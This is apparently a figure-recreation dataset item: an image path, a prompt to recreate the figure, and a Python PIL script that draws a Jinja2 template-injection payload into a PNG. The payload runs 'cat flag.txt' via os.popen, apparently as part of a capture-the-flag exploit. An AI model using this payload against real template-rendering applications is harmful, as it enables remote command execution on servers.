

Write Python code to recreate this figure.
from PIL import Image, ImageDraw, ImageFont

cmd = "cat flag.txt"
payload = "{{ cycler.__init__.__globals__.os.popen('"+cmd+"').read() }}"

img = Image.new('RGB', (len(payload)*20, 90), color = (255,255,255))

fnt = ImageFont.truetype('consola.ttf', 32)
d = ImageDraw.Draw(img)

d.text((30,30), payload, font=fnt, fill=(0,0,0))

img.save('1.png')
